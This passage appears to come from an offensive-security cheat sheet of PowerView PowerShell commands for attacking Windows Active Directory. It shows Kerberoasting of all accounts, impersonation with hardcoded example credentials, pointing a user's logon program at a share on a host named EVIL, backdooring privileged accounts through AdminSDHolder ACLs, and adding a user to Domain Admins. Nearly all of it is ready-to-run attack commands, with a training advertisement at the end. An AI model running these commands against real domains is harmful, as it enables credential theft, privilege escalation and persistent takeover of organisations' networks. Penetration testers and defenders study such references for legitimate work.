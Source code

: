 ### MISC

#### SID to Name

```powershell
"S-1-5-21-1874506631-3219952063-538504511-2136" | Convert-SidToName
```

#### Kerberoast

```powershell
Invoke-Kerberoast [-Identity websvc] #Without "-Identity" kerberoast all possible users
```

#### Use different credentials (argument)

```powershell
# use an alterate creadential for any function
$SecPassword = ConvertTo-SecureString 'BurgerBurgerBurger!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)
Get-DomainUser -Credential $Cred
```

#### Impersonate a user

```powershell
# if running in -sta mode, impersonate another credential a la "runas /netonly"
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)
Invoke-UserImpersonation -Credential $Cred
# ... action
Invoke-RevertToSelf
```

#### Set values

```powershell
# set the specified property for the given user identity
Set-DomainObject testuser -Set @{'mstsinitialprogram'='\\EVIL\program.exe'} -Verbose
# Set the owner of 'dfm' in the current domain to 'harmj0y'
Set-DomainObjectOwner -Identity dfm -OwnerIdentity harmj0y
# Backdoor the ACLs of all privileged accounts with the 'matt' account through AdminSDHolder abuse
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=testlab,DC=local' -PrincipalIdentity matt -Rights All
# Add user to 'Domain Admins'
Add-NetGroupUser -Username username -GroupName 'Domain Admins' -Domain my.domain.local
```


<figure><img src="/.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
